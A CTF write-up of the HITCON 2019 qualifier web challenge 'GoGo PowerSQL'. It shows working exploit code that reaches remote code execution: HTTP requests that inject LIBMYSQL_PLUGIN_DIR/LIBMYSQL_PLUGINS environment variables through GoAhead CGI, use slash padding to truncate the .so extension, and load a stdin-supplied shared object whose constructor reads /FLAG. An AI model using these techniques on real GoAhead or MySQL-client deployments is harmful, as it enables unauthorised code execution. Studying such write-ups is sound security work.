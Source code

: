 ```yaml
---
title: HITCON Qualification - GoGo PowerSQL
authors: Devon Maloney (plailect), Glenn Smith (glenns)
date: 2019-10-20
categories: web
---
```


This was a CGI binary written in C which used `libmysqlclient` to query results given by the user, powered by the [GoAhead](https://github.com/embedthis/goahead/) embedded web server.

The clear first point of attack was to try SQL injection and we found quite quickly that the code
filtered all characters in the input with `isalpha`. We also noticed that the buffer they were `snprintf`ing
the query into was of fixed size, 0x3ff.

While we could not overflow this buffer, we could truncate the closing quote leading to a MySQL error being printed to the page. The latter of these did not end up being useful in any way, but we spent some time looking into it so it is worth mentioning.

![bug](/assets/hc_powersql_bug.png)

Although we did not initially realize it, this challenge also made reference to a past vulnerability in GoAhead where query parameters were being passed to CGI scripts as environment variables. GoAhead had patched this vulnerability by prefixing all variables with `CLI_` (to prevent people from overwriting `LD_PRELOAD` etc) but the challenge explicitly unpatched this bug. That was an immediately obvious point of attack for us, and we set out to find an environment variable we could control.

```bash
RUN sed -i 's/CGI/\x0\x0\x0/g' /usr/local/bin/goahead
```

We quickly found that, although the challenge re-enabled arbitrary environment variable overwriting, it did not patch out the blacklist filtering which had been added as a hotfix patch. This filtering disallowed us the use of variables such as `PATH`, `IFS`, and anything that started with `LD_`, blocking access to all of the easy paths to RCE.

The first environment variable we attempted to exploit was `LANG`. Seeing how the challenge stripped characters from the input using `isalpha` and knowing that `isalpha` depended on the current locale, we searched for a locale that considered single quotes to be an alpha character. After spending a few hours toying around with the nightmare that is C and locale support, we discovered that, not only did the Dockerfile not install any languages other than POSIX and C, but that no locale we could find considered quotes to be an alpha character.

Indeed, none of the locales we found had any different results for `isalpha` within the ASCII range (and there were no locales in the provided Docker container other than the standard `POSIX`, `C`, and `C.utf-8` locales anyway). As it turns out, locale support in C is, in general, extremely messy and configuration-specific.

![cppref1](/assets/hc_powersql_cppref1.jpg)

![cppref2](/assets/hc_powersql_cppref2.jpg)

After that waste of nearly a day, we started searching for a more exploitable environment variable. After consulting the (very poor) `libmysqlclient` documentation, we found that MySQL server (and client!) both load optional plugins from the a directory specified in the `LIBMYSQL_PLUGIN_DIR` environment variable, using names of plugins specified in the `LIBMYSQL_PLUGINS` environment variable, and these plugins are simply shared object libraries that get passed into `dlopen`. If we were able to load an arbitrary file with this, we could get code execution on the box and win.

We had no way to drop files on the box, but we also knew from prior experience that CGI-bin implementations typically pass HTTP request bodies with `stdin`, so we set to crafting a request that would load a shared object that we controlled by loading from the file `/proc/self/fd/0`:

```python
import requests
requests.post("http://13.231.38.172/cgi-bin/query?name=a&LIBMYSQL_PLUGIN_DIR=" + "/proc/self/fd&LIBMYSQL_PLUGINS=0",data=open("testplugin.so","rb")).text
```

Unfortunately, we realized while testing on our local machines that this would not work as is. `libmysqlclient`, in its attempts to be helpful to the user, appends an extension to the plugin name before calling `dlopen` (`.so` in the case of Linux), resulting in it trying to load from `/proc/self/fd/0.so` which is not a valid file descriptor.

```c
/* From mysql/sql-common/client_plugin.c */

/* see <mysql/client_plugin.h> for a full description */
struct st_mysql_client_plugin *
mysql_load_plugin_v(MYSQL *mysql, const char *name, int type,
                    int argc, va_list args)
{
  char dlpath[FN_REFLEN+1];

  /* ... */

  /* Compile dll path */
  strxnmov(dlpath, sizeof(dlpath) - 1,
           mysql->options.extension && mysql->options.extension->plugin_dir ?
           mysql->options.extension->plugin_dir : PLUGINDIR, "/",
           name, SO_EXT, NullS);

  DBUG_PRINT ("info", ("dlopeninig %s", dlpath));
  /* Open new dll handle */
  if (!(dlhandle= dlopen(dlpath, RTLD_NOW)))
  {
    goto err;
  }

  /* ... */

}

```

Fortunately, we also realized that `libmysqlclient` uses a fixed size buffer to append this extension. If we sent enough characters in the plugin directory, we could overflow the extension and it would be cut off for us. 498 slashes later, we were successfully injecting arbitrary plugins into `libmysqlclient`:

```python
import requests
requests.post("http://13.231.38.172/cgi-bin/query?name=a&LIBMYSQL_PLUGIN_DIR=" + "/"*498 + "proc/self/fd&LIBMYSQL_PLUGINS=0",data=open("testplugin.so","rb")).text
```

Now we just needed a way to make `libmysqlclient` call our code so that we could read the flag. This was fairly trivially accomplished with a quick `__attribute__((constructor))`:

```c
#include <stdio.h>
/* gcc -shared -fPIC -o testplugin.so ./testplugin.c */
__attribute__((constructor))
void readflag() {
    FILE *f = fopen("/FLAG", "r");
    char buf[0x100];
    fread(buf, 1, 0x100, f);
    printf("%s\n", buf);
    fclose(f);
}
```

By combining this plugin with our library injection, we were able to achieve remote code execution and read the flag.

Interestingly, we learned after the CTF ended that this was [not the intended solution to this challenge](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/README.md#gogo-powersql):

```
1. Buffer Overflow the DB_HOST in BSS
2. Due to the patch, we can pollute environment variable which are not in the Blacklist.
3. Hijack MySQL connection by ENV such as LOCALDOMAIN or HOSTALIAES
4. Read /FLAG by LOAD DATA LOCAL INFILE.
```

The attack we have presented is more powerful than the intended solution as it allows for full RCE on the webserver rather than just control over the MySQL database and arbitrary file read.
